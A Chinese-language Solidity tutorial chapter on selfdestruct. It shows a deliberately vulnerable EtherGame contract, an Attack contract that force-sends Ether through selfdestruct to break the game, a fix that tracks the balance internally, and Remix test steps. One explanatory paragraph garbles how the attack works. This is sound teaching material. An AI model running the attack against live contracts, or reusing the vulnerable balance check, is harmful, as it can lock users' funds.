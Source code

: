 # 68.Self Destruct
Self Destruct是一种Solidity语言的函数，它可以在智能合约中销毁当前合约。
它的作用是将当前合约的余额（以以太币为单位）发送到指定的地址，并且将合约从区块链中删除，以节省存储空间并且不再消耗gas。

在调用Self Destruct函数之前，需要确保当前合约中没有任何未处理的交易和未使用的存储空间。
因为一旦调用Self Destruct函数，合约将被永久删除，无法再次访问。
因此，需要仔细考虑什么时候使用Self Destruct函数。
一般情况下，Self Destruct函数适用于合约已经完成了它的使命，或者合约已经过期或被废弃的情况下。
## 漏洞
恶意攻击合约可以使用selfdestruct来强制向任何合约发送以太币。
攻击者可以通过向智能合约发送带有恶意代码的交易来利用Self Destruct漏洞。恶意代码可以包含一个Self Destruct调用，将合约的余额转移到攻击者的地址，然后删除合约。

## 例子：EtherGame
这个游戏的目标是成为第七个存入1个以太币的玩家。
玩家每次只能存入1个以太币。获胜者将能够提取所有以太币。

```solidity
contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
## 攻击合约Attack

1. 部署EtherGame
2. 玩家（例如Alice和Bob）决定玩游戏，每人存入1个以太币。
3. 部署攻击程序，并指定EtherGame的地址。
4. 调用Attack.attack函数，发送5个以太币。这将破坏游戏，没有人能成为赢家。

发生了什么？
攻击导致EtherGame的平衡被强制设置为7个以太币。
现在没有人能够存款，也无法设定获胜者。
```solidity
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // 你可以通过发送以太币来轻松破坏游戏，以此来达到作弊的目的。
        // 游戏余额 >= 7 以太币

        // 转换地址为可支付地址
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
### 不要依赖address(this).balance作为预防措施。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
## remix验证
部署合约EtherGame，模拟两个不同玩家各转入1ETH，余额显示为2ETH。
![68-1.png](./img/68-1.png)
部署合约Attack，输入合约EtherGame地址，调用attack（）函数并转入5ETH，结果发现虽然达到7个ETH，但并不能设置胜利者地址。
![68-2.png](./img/68-2.png)
